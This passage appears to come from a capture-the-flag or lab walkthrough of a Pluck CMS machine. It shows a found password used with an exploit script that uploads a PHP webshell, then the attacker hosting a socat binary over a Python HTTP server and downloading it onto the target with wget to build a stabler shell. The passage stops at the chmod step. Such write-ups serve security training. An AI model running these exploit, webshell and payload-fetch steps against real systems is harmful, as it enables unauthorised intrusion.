 
We find a password `CharlesTreePokemon44`

We can try this with SSH (for example for the `norman` user) but we don't get anywhere.


# Foothold

Since we already found the exploit for Pluck CMS, let's see if we can use this password.

```
└─$ python3 exploit.py 172.16.118.131 80 CharlesTreePokemon44 /cms

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://172.16.118.131:80/cms/files/shell.phar
```

Indeed it works and seems that it has uploaded a webshell in the cms directory as the user `www-data`.

## Escalation

Although this is a decent shell, we want to have a more stable one, more functional if we need to edit files for example.

Let's use socat.

First we get the executable on the target box (socat can be downloaded from here: https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

We start a python listener to the relevant directory we have the executable

```
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And from the target machine we go to `/dev/shm` and use `wget`to get the binary and give it execution permissions:

```
p0wny@shell:/dev/shm# wget 172.16.118.132/socat
--2021-11-18 09:09:30--  http://172.16.118.132/socat
Connecting to 172.16.118.132:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: 'socat'

     0K .......... .......... .......... .......... .......... 13% 11.7M 0s
    50K .......... .......... .......... .......... .......... 27% 43.8M 0s
   100K .......... .......... .......... .......... .......... 40% 29.7M 0s
   150K .......... .......... .......... .......... .......... 54% 47.4M 0s
   200K .......... .......... .......... .......... .......... 68% 27.5M 0s
   250K .......... .......... .......... .......... .......... 81% 44.9M 0s
   300K .......... .......... .......... .......... .......... 95% 39.3M 0s
   350K .......... ......                                     100%  168M=0.01s

2021-11-18 09:09:30 (29.4 MB/s) - 'socat' saved [375176/375176]


p0wny@shell:/dev/shm# chmod +x socat
```
